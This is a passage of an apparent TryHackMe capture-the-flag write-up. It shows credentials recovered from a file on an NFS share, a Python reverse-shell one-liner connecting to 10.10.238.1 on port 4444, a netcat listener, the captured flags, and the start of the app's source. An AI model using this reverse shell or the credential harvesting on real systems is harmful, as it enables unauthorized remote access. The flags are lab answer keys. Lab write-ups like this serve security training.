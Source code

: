 ```bash
:~/CooctusStories/mnt/nfs# ls
credentials.bak
```

```bash
:~/CooctusStories/mnt/nfs# file credentials.bak
credentials.bak: ASCII text
```

```bash
:~/CooctusStories/mnt/nfs# cat credentials.bak
paradoxial.test
ShibaPretzel79
```

<h3>Web</h3>

<img width="1058" height="511" alt="image" src="https://github.com/user-attachments/assets/b89444de-5d60-498b-8fbe-512e238c0446" />

<img width="1070" height="210" alt="image" src="https://github.com/user-attachments/assets/ec42ce33-2e93-40d7-8b4b-8789f143defe" />


```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.238.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

<img width="1060" height="286" alt="image" src="https://github.com/user-attachments/assets/c4a58f3f-9cef-4201-914e-54f4bd393442" />


```bash
:~/CooctusStories/mnt/nfs# nc -nlvp 4444
...
paradox@cchq:~$ pwd
pwd
/home/paradox
paradox@cchq:~$ ls
ls
CATapp  user.txt
paradox@cchq:~$ cat user.txt
cat user.txt
THM{2dccd1ab3e03990aea77359831c85ca2}
```

<br>

<p>1.2. Find out what Szymex is working on. Hint: <em>Locating shipment...</em><br>
<code>THM{c89f9f4ef264e22001f9a9c3d72992ef}</code></p>

```bash
paradox@cchq:~$ cd CATapp
cd CATapp
paradox@cchq:~/CATapp$ ls
ls
app.py  static  templates
paradox@cchq:~/CATapp$ cat app.py
cat app.py
#!/usr/bin/python3

from flask import Flask, render_template, redirect, url_for, request
import os
import shlex
import subprocess

app = Flask(__name__)

global logged_in
logged_in = False
```